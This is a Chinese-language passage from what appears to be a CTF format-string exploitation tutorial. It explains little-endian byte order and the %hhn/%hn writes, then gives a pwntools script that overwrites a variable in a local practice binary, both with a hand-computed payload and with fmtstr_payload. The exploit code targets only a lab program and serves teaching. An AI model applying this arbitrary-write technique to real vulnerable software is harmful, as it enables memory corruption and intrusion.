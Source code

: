 上面我们也说了，我们可以选择直接一次性输出大数字个字节来进行覆盖，但是这样基本也不会成功，因为太长了。而且即使成功，我们一次性等待的时间也太长了。

先回忆一下变量在内存中的存储格式。首先，所有的变量在内存中都是以字节进行存储的。此外，在 x86 和 x64 的体系结构中，变量的存储格式为以小端存储，即最低有效位存储在低地址。举个例子，0x12345678 在内存中由低地址到高地址依次为 \ x78\x56\x34\x12。 

这里利用的原理是：

```c
hh 对于整数类型，printf期待一个从char提升的int尺寸的整型参数。
h  对于整数类型，printf期待一个从short提升的int尺寸的整型参数。
可以利用 %hhn 向某个地址写入单字节，利用 %hn 向某个地址写入双字节。这里，我们以单字节为例。
```

接下来我们继续上面的例子去覆盖c：

![pEszIbt.png](https://s21.ax1x.com/2025/03/31/pEszIbt.png)

```python
我们目标是把下面的地址一个一个覆盖掉。
c_addr+0 	\x78
c_addr+1 	\x56
c_addr+2 	\x34
c_addr+3 	\x12
```

```python
from pwn import *

binary_path = "/home/feeling/ctf/exam/fmt2/fmt2"
e = ELF(binary_path)
context.terminal=["cmd.exe","/c", "start", "cmd.exe", "/c", "wsl.exe", "-e"]
context(log_level='debug', os='linux', arch='amd64')
io = process(binary_path)

io.recvuntil(b'c_addr:')
c_addr = int(io.recvline().strip(),16)
print(hex(c_addr))
"""
payload = p64(c_addr)+p64(c_addr+1)+p64(c_addr+2)+p64(c_addr+3)
payload += b'%88x' + b'%8$hhn' + b'%222x' + b'%9$hhn' + b'%222x' + b'%10$hhn' + b'%222x' + b'%11$hhn'
第一节：
0x78=120
120-32=88

第二节：
0x156=342
342-120=222

第三节：
0x234=564
564-342=222

第四节：
0x312=786
786-564=222

"""

#简单版
payload = fmtstr_payload(8,{c_addr:0x12345678})
io.sendline(payload)
io.interactive()
```
